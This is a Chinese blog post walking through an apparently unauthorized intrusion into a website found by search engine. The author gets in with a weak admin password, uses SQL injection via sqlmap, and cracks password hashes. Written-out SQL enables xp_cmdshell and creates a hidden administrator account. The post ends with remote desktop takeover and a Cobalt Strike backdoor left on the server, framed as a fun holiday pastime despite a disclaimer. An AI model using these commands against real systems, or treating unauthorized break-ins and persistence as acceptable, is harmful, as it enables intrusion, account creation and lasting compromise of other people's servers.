 ```yaml
---
title: 从网页到远程桌面的渗透
tags:
- 渗透
- 日记
- SQL注入
categories:
- [渗透]
description: 实战一个相对完整的渗透过程
keywords: 渗透, 弱口令, 提权, sql注入
cover: https://img.dreamfall.cn/cover/16.webp
date: 2023-05-21 16:33:00
updated: 2023-05-21 16:33:00
---
```


{% note red 'fas fa-fan' flat%}
以下内容属于渗透复现，未经授权的渗透测试是不允许的
{% endnote %}
{% note red 'fas fa-fan' flat%}
利用本文中的技术造成的后果与本人无关，倡导维护网络安全人人有责，共同维护网络文明和谐。
{% endnote %}

## 引子

5.20闲着无聊，那就来挖洞吧，打穿一台机器的体验可比去外面玩成就感大多了

## 过程

### 登录后台

通过搜索引擎搜索到了某个网站的后台，首先使用弱口令，（123456），结果直接进去了
![](https://img.dreamfall.cn/post/shentou/1.webp)

### 发现漏洞

通常，网站的后台会存在大量的漏洞，如文件上传，SQL注入等，我使用扫描器发现了该网站后台存在SQL报错注入。

![](https://img.dreamfall.cn/post/shentou/2.webp)

### SQL注入

标记扫描器扫出的SQL注入点后，直接进sqlmap跑，成功获得了数据库列表

![](https://img.dreamfall.cn/post/shentou/3.webp)
![](https://img.dreamfall.cn/post/shentou/4.webp)

查看当前用户权限，发现是dba（数据库管理员）

![](https://img.dreamfall.cn/post/shentou/5.webp)

查看数据库类型是SQL server，mssql的提权比mysql的方便，因为能直接调用xp_cmd模块直接执行命令

### 尝试执行命令

使用os-shell执行命令失败
![](https://img.dreamfall.cn/post/shentou/6.webp)
### 破解密码
尝试读取数据库用户密码哈希，通过在线查询哈希
![](https://img.dreamfall.cn/post/shentou/7.webp)

emmm
![](https://img.dreamfall.cn/post/shentou/8.webp)


成功获取到明文密码
![](https://img.dreamfall.cn/post/shentou/9.webp)

### 扫描端口
对目标服务器进行全端口扫描，发现目标机器开放了SQL server端口1433

![](https://img.dreamfall.cn/post/shentou/10.webp)

### 连接数据库

使用数据库连接工具成功连接
![](https://img.dreamfall.cn/post/shentou/11.webp)

### 查看当前用户权限

执行sql语句：
```sql
WITH CTE AS (
    SELECT
        u.name AS 用户名,
        u.is_disabled AS 是否禁用,
        g.name AS 服务器角色,
        '√' AS 'flag' 
    FROM
        sys.server_principals u
        INNER JOIN sys.server_role_members m ON u.principal_id = m.member_principal_id
        INNER JOIN sys.server_principals g ON g.principal_id = m.role_principal_id 
    ) SELECT
    * 
FROM
    CTE PIVOT ( MAX ( flag ) FOR 服务器角色 IN ( [public], [sysadmin], [securityadmin], [serveradmin], [setupadmin], [processadmin], [diskadmin], [dbcreator], [bulkadmin] ) ) AS T;
```

发现是system管理员权限
![](https://img.dreamfall.cn/post/shentou/12.webp)

### 执行命令

直接执行sql语句，打开xp_cmd

```sql
use master;
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'xp_cmdshell',1;
reconfigure;
```

![](https://img.dreamfall.cn/post/shentou/14.webp)
查看当前用户权限

```sql
use master;
exec master..xp_cmdshell "whoami";
```

![](https://img.dreamfall.cn/post/shentou/15.webp)
发现是system权限，直接创建新的管理员账户

### 创建管理员

```sql
use master;
exec master..xp_cmdshell "net user test12 dreamfall.cn1 /add";
```
![](https://img.dreamfall.cn/post/shentou/16.webp)
```sql
net localgroup administrators test12 /add
```
![](https://img.dreamfall.cn/post/shentou/17.webp)

### 远程桌面

通过远程桌面成功登录，获取目标主机的全部权限
![](https://img.dreamfall.cn/post/shentou/18.webp)

### 上线CS

在服务器中留下后门，以便随时随地访问此站

## 总结

**千万不要为了方便使用简单密码**

流程总结：弱口令进后台，后台sql注入，获取到数据库用户哈希，弱密码哈希破解，发现开数据库端口，直接连接，发现是dba权限，直接调用xp_cmd执行命令创建管理员账户，登录远程桌面